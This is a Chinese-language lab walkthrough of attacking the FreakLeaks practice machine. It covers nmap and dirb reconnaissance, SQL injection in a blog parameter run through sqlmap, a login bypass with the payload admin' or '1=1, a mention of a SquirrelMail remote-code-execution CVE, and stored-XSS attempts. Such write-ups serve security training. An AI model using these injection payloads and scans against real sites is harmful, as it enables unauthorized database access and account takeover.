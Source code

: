 # 关于配置方面

我的Kali机和FreakLeaks靶机均是NAT网络

# 撸起袖子加油干

![image-20220123005334469](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123005334469.png)

老样子

```
netdiscover
```

靶机对应ip是172.16.12.102

使用

```
nmap -sV 172.16.12.102
```

![image-20220123005446774](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123005446774.png)

> 开放了22 ssh，25 smtp，80 http和631 cups打印机服务

![image-20220123010545731](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123010545731.png)

80端口

直接扫目录

```
dirb http://172.16.12.102
```

![image-20220123011116455](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123011116455.png)

![image-20220123011133150](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123011133150.png)

![image-20220123011227538](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123011227538.png)

![image-20220123012048100](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123012048100.png)

![image-20220123012123733](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123012123733.png)

有个敏感文件robots.txt

![image-20220123012234804](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123012234804.png)

访问sql目录

![image-20220123012302666](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123012302666.png)

Apache版本2.2.0

![image-20220123012415223](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123012415223.png)

```sql
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

在数据库ehks中有三个表user，blog和comment

在

```
http://172.16.12.102/admin/
```

目录是登陆界面

```
http://172.16.12.102/restricted
```

![image-20220123013138396](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123013138396.png)

> This server could not verify that you are authorized to access the document requested. Either you supplied the wrong credentials (e.g., bad password), or your browser doesn't understand how to supply the credentials required.
> Apache/2.2.0 (Fedora) Server at 172.16.12.102 Port 80

需要验证

```
http://172.16.12.102/mail/src/login.php
```

![image-20220123013317667](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123013317667.png)

邮件服务同样是登陆界面

## 登陆界面看看有什么操作

使用admin' or 1=1#登陆试试

![image-20220123013636957](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123013636957.png)

可以看到页面把单引号空格等号和井号过滤

使用url和base64加密的方式不可行

进行多次测试并未发生登陆次数限制，尝试爆破密码

## 博客页面看看有什么操作

![image-20220123021320403](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123021320403.png)

```
http://172.16.12.102/index.html?page=blog&title=Blog&id=2
```

id可能是个注入点

![image-20220123021501831](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123021501831.png)

使用单引号注入后报错，mysql_fetch_row()即从数据库中选出一行作为输出，同时靶机的目录被爆出

```
/var/www/html/pages/
```

使用语句测出

```
http://172.16.12.102/index.html?page=blog&title=Blog&id=2 order by 1
```

![image-20220123021946893](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123021946893.png)

直接sqlmap跑一下就出来了

```
python sqlmap.py -u "http://172.16.12.102/index.html?page=blog&title=Blog&id=2"
```

![image-20220123022512477](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123022512477.png)

Apache版本 2.2.0，PHP版本5.1.2，Mysql版本5.0.12

## 邮件页面看看有什么操作

![image-20220123023229096](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123023229096.png)

SquirrelMail版本是1.4.17，上网搜一搜

> PHP邮件Squirrelmail远程代码执行漏洞CVE-2017-7692 1.4.22以下版本均受影响

可以对其测试

相关poc

## calendar页面看看有什么操作

![image-20220123023902902](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123023902902.png)

选年月的位置是否可以注入，查看源代码发现是链接页面，可能存在注入

搜索界面有没有xss

登陆界面sql注入或其他

选月份后

```
http://172.16.12.102/calendar/index.php?action=display&year=2022&month=2
```

![image-20220123024050589](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123024050589.png)

可以看到有报错，遇到了不完善的数值，判断存在数值类型转换

在登陆页面

利用admin'登陆测试，发现报错

![image-20220123025032920](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123025032920.png)

```sql
SELECT uid FROM phpc_users
WHERE username = 'admin'' AND password = 'c4ca4238a0b923820dcc509a6f75849b' AND calendar = '0'
```

在phpc_users表中选出uid

sql语句被报错显示出，单引号没被过滤可以测试

> 账号：admin' or '1=1
>
> 密码：任意

登陆成功

![image-20220123025243499](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123025243499.png)

![image-20220123025304560](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123025304560.png)

创建两个新用户尝试，12和12'#查看能否修改密码，其中'#使用url编码

事实发现，随便用个账号登陆就是admin账户= =

在账户设置处，有日历标题选项，可以测试存储性xss

![image-20220123025924957](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123025924957.png)

![image-20220123025956596](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123025956596.png)

将Anonymous Permission权限改为可以修改和添加日程

测试日程处的存储型xss

![image-20220123030336225](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220123030336225.png)

弹出失败
